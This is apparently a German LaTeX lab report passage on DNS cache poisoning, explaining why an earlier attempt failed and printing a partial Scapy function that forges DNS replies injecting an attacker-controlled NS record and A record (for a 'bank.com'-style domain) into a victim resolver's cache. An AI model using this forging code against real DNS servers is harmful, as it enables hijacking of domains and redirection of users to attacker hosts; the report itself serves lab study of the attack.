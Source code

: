 \documentclass[10pt,a4paper]{article}
\begin{document}
Nach mehreren weiteren Versuchen war das \glqq injecten\grqq\ eines NS-Records letzendlich möglich. Der Grund dafür lag in mehreren kleineren Fehlern.
\begin{itemize}
	\item[1.] Bei unseren vorherigen Antworten, haben wir keine vollständige Antwort gesendet, sondern lediglich welcher NS-Server für die Domain zuständig ist.
	\item[2.] Die Flag für \glqq recursion desired\grqq\ (rd) wurde auf den Wert 1 gesetzt um die Anfrage zu spiegeln. Da im Request bereits eine rekursive Auflösung der IP angefragt wurde, musste dieses Verhalten ebenfalls vom Angreifer gespiegelt werden.
\end{itemize}

\section{Verbesserungen im Code}
Durch die aufgezählten Veränderungen, ergab sich auch ein leicht anderer Source-Code für die die Funktion \emph{forged\_ns\_response()}. Die geänderten Codezeilen werden in folgendem Listig aufgezählt. Aufgrund der Vergleichbarkeit werden die unveränderten Codezeilen nicht dargestellt.
\begin{center}
\begin{lstlisting}
def forged_ns_response(id, target_domain, known_ns_ip):
    response = Ether() / IP(src=known_ns_ip, dst=victim_dns_ip, flags=2) / UDP(

        ...
        
        rd=1,  # Mirror request flag

        ...

        # DNS Question Record
        qd=DNSQR(qname=target_domain, qtype='A', qclass='IN'),
        # DNS Resource Record
        an=DNSRR(rrname=target_domain, type='A', rdata=attacker_dns_ip, ttl=MAX_TTL),
        ns=DNSRR(rrname=victim_base_domain, type='NS', rdata="forged-ns.bank.com", ttl=MAX_TTL),
        ar=DNSRR(rrname="forged-ns.bank.com", type='A', rdata=attacker_dns_ip, ttl=MAX_TTL)
    )
    return response
\end{lstlisting}
\end{center}
Durch die gezeigten Änderungen waren wir letztendlich in der Lage einen gefälschten NS-Record in den Cache des Victim-DNS zu schleusen und somit alle Subdomains unter unsere Kontrolle zu bringen wie auch im folgenden Bild zu sehen ist.
\begin{figure}
	\centering
	\texttt{[image: successful\_attack.jpeg]} 
\end{figure}
\end{document}
